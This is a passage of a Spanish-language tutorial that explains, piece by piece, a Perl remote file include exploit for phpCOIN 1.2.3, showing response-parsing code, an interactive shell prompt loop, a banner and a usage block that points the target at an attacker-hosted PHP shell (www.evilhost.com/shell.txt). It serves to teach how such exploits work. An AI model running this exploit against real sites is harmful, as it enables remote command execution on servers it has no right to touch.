 Estos condicionales evaluan el contenido almacenado en **$info** para encontrar errores ya sea a causa de la entrada dada por el usuario o por algún error en el sitio. Esto es facil de entender, no se necesita mucha explicación.
Sigamos:

```perl
if ($info =~ /(.+)<br.\/>.<b>Warning.(.+)<br.\/>.<b>Warning/) {
  $final = $1;
  $final =~ tr/[&#234]/[\n]/;

  print "\n$final\n";

  last;
} 
```

Esta porción de código es escencial en este exploit. La misma evalúa la aplicación Web en busca de la vulnerabilidad. Si el contenido devuelto contiene el string "Warning", entonces el programa finaliza indicado que el sitio no es vulnerable.
Continuemos:

```perl
    else {
      print "[shell] \$";
    } #fin de else
  } #fin de while(STDIN)
} #fin de while()

last;

sub header() {
  print q{
  ++++++++++++++++++++++++++++++++++++++++++++++
      phpCOIN 1.2.3 -- Remote Include Exploit
      Vulnerablity found by: TimQ
      Exploit coded by: Warpboy
      www.securitydb.org
      Original PoC: http://milw0rm.com/exploits/2254
  ++++++++++++++++++++++++++++++++++++++++++++++
  }
}
```

Esta sección contiene un **else** para todos los condicionales anteriores. El final del código es nuestra subrutina **header**, llamada enteriormente en el exploit.
Y finalmente:

```perl
sub usg()
{
  header();
  
  print q{
  ======================================================================
      Usage: perl sploit.pl <phpCOIN FULL PATH> <Shell Location> <Shell Cmd>
      
      <phpCOIN FULL PATH> - Path to site exp. www.site.com
      <Shell Location> - Path to shell exp. www.evilhost.com/shell.txt
      <Shell Cmd Variable> - Command variable for php shell
      Example: perl C:\sploit.pl http://www.site.com/phpCOIN/
  =======================================================================
  };
  
  exit();
}
```


[activestate-url]: http://www.activestate.us/
[DzSofts-Perl-Editor]: http://www.dzsoft.com/